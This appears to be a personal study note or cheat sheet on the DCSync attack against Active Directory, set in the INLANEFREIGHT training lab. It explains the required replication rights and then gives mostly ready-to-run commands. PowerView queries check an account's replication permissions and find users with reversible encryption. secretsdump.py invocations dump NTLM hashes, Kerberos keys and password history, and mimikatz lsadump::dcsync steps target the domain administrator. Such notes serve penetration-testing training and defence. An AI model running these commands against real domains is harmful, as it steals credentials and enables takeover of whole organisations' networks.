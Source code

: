 DCSync is a technique for stealing the Active Directory password database by using the built-in `Directory Replication Service Remote Protocol`, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set). Domain/Enterprise Admins and default domain administrators have this right by default.

# Powerview
View user's group membership
```powershell-session
Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
```

check users replication rights, it needs to have DS-Replication-Get-Changes-All in order to perform DCSync 
```
$sid = Convert-NameToSid username
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

Extracting NTLM Hashes and Kerberos Keys using secretsdump.py

```shell-session
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```
all the hashes and keys and passwords are saved in the working directory

`-just-dc-ntlm` flag if we only want NTLM hashes or specify `-just-dc-user <USERNAME>`

`-pwd-last-set` to see when each account's password was last changed

`-history` if we want to dump password history,

`-user-status` see if a user is disabled.

```
secretsdump.py hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -just-dc-ntlm -just-dc-user bross
```

REversible Encryption Password Users
powerview
```powershell-session
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl

Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```

alternative:
runas.exe as the domain administrator and then run mimikatz.exe
```
runas /netonly /user:INLANEFREIGHT\adunn powershell
```

```
privilege::debug

lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```